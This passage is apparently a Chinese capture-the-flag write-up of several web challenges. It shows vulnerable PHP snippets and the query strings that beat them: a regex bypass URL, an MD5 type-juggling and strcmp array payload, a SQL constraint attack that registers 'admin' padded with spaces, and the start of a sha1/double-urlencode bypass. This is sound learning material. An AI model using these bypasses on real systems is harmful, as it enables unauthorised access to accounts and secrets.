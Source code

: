 ```bash
?>
```
[php正则表达式](http://wiki.jikexueyuan.com/project/php/regular-expression.html)</br>
[php正则匹配规则](http://www.runoob.com/regexp/regexp-rule.html)
考查php正则，
```bash
http://120.24.86.145:8002/web10/?id=key2keykeykeykeykey:/c/keya?
```

# 前女友

一开始没注意看源码，没注意到源码中有个code.txt链接。
```bash
<?php
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];
    $v3 = $_GET['v3'];
    if($v1 != $v2 && md5($v1) == md5($v2)){
        if(!strcmp($v3, $flag)){
            echo $flag;
        }
    }
}
?>
```
考查两点</br>
1.v1不等于v2,但v1和v2的md5加密后相等</br>
2.strcmp漏洞(5.3的之前和之后版本在使用strcmp比较数组和字符串时候的差异。在5.3的版本之后使用这个函数比较会返回0)</br>
```bash
?v1=QNKCDZO&v2=240610708&v3[]=1
```
# login1 
sql约束攻击（上次第三届百越杯，就遇到过，被宿友发现，听宿友装了挺久的笔）</br>
[mysql约束攻击](http://www.freebuf.com/articles/web/124537.html)</br>
注册admin+无数个空格+1账户，相当于注册admin账户，有着相同的权限，然后就能用admin账户登入了

# 各种绕过
```bash
<?php 
highlight_file('flag.php'); 
$_GET['id'] = urldecode($_GET['id']); 
$flag = 'flag{xxxxxxxxxxxxxxxxxx}'; 
if (isset($_GET['uname']) and isset($_POST['passwd'])) { 
    if ($_GET['uname'] == $_POST['passwd']) 

        print 'passwd can not be uname.'; 

    else if (sha1($_GET['uname']) === sha1($_POST['passwd'])&($_GET['id']=='margin')) 

        die('Flag: '.$flag); 

    else 

        print 'sorry!'; 

} 
?>
```
1.将margin进行url编码两次，赋值给id</br>